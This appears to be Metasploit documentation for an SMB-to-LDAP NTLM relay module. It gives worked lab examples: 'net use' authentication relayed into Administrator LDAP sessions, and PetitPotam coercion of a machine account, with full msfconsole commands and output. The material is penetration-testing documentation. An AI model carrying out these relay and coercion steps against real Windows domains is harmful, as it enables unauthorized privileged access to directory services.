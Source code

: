 ```
 1   SMB Relay Server                                                  2
```

### Net use example
A simple test would be using the Windows `net use` command:

```
net use \\192.168.232.3\foo /u:Administrator 123456
```

msfconsole output:

```
[*] New request from 192.168.232.111
[*] Received request for \Administrator
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: \Administrator - Successfully authenticated against relay target ldap://192.168.232.110:389
[+] Relay succeeded
[*] LDAP session 1 opened (192.168.232.3:45007 -> 192.168.232.110:389) at 2025-01-23 20:39:45 +0100
[*] Received request for \Administrator
[*] Identity: \Administrator - All targets relayed to
[*] New request from 192.168.232.111
[*] Received request for NEWLAB\Administrator
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: NEWLAB\Administrator - Successfully authenticated against relay target ldap://192.168.232.110:389
[+] Relay succeeded
[*] LDAP session 2 opened (192.168.232.3:43845 -> 192.168.232.110:389) at 2025-01-23 20:39:46 +0100
[*] Received request for NEWLAB\Administrator
[*] Identity: NEWLAB\Administrator - All targets relayed to

msf6 auxiliary(server/relay/smb_to_ldap) > sessions

Active sessions
===============

  Id  Name  Type  Information                               Connection
  --  ----  ----  -----------                               ----------
  1         ldap  LDAP Administrator @ 192.168.232.110:389  192.168.232.3:45007 -> 192.168.232.110:389 (192.168.232.110)
  2         ldap  LDAP Administrator @ 192.168.232.110:389  192.168.232.3:43845 -> 192.168.232.110:389 (192.168.232.110)
```

### PetitPotam example

Coerce authentication using a non-privileged Domain User account with PetitPotam:

```
msf6 auxiliary(scanner/dcerpc/petitpotam) > run verbose=true rhosts=192.168.232.111 listener=192.168.232.3 SMBUser=msfuser SMBPass=123456 SMBDomain=newlab.local
[*] 192.168.232.111:445   - Binding to c681d488-d850-11d0-8c52-00c04fd90f7e:1.0@ncacn_np:192.168.232.111[\lsarpc] ...
[*] 192.168.232.111:445   - Bound to c681d488-d850-11d0-8c52-00c04fd90f7e:1.0@ncacn_np:192.168.232.111[\lsarpc] ...
[*] 192.168.232.111:445   - Attempting to coerce authentication via EfsRpcOpenFileRaw
[*] 192.168.232.111:445   - Server responded with ERROR_ACCESS_DENIED (Access is denied.)
[*] 192.168.232.111:445   - Attempting to coerce authentication via EfsRpcEncryptFileSrv

[*] New request from 192.168.232.111
[*] Received request for NEWLAB\VICTIM$
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: NEWLAB\VICTIM$ - Successfully authenticated against relay target ldap://192.168.232.110:389
[*] Skipping previously captured hash for NEWLAB\VICTIM$
```